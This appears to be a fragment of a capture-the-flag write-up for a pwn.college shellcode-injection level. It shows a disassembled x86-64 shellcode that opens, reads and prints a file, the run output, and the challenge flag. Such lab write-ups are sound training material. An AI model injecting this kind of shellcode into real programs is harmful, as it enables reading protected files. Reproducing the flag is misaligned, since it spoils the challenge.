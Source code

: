 ```shell
------------------------------------------------------------------------------------------
0x0000000022817000 | 31 f6                                         | xor esi, esi
0x0000000022817002 | 31 d2                                         | xor edx, edx
0x0000000022817004 | 67 8d 3d 21 00 00 00                          | lea edi, [eip + 0x21]
0x000000002281700b | 31 c0                                         | xor eax, eax
0x000000002281700d | b0 02                                         | mov al, 2
0x000000002281700f | 0f 05                                         | syscall 
0x0000000022817011 | 89 c7                                         | mov edi, eax
0x0000000022817013 | 31 c0                                         | xor eax, eax
0x0000000022817015 | b0 00                                         | mov al, 0
0x0000000022817017 | 54                                            | push rsp
0x0000000022817018 | 5e                                            | pop rsi
0x0000000022817019 | b2 e6                                         | mov dl, 0xe6
0x000000002281701b | 0f 05                                         | syscall 
0x000000002281701d | 89 c2                                         | mov edx, eax
0x000000002281701f | 40 b7 01                                      | mov dil, 1
0x0000000022817022 | b0 01                                         | mov al, 1
0x0000000022817024 | 0f 05                                         | syscall 
0x0000000022817026 | 31 ff                                         | xor edi, edi
0x0000000022817028 | b0 3c                                         | mov al, 0x3c
0x000000002281702a | 0f 05                                         | syscall 

Executing shellcode!

pwn.college{IMHcVubFF-vOK5JptNvvA7ogm1H.0FMyIDL4czN0czW}
[*] Got EOF while reading in interactive
```

Used Help from this [writeup](https://github.com/broCapang/CTF/blob/da91a573370a7067c2e3c74b901c9ff250db72fa/pwncollege/shellcode_injection/level4/exploit.py)


### Flag

> pwn.college{IMHcVubFF-vOK5JptNvvA7ogm1H.0FMyIDL4czN0czW}

---
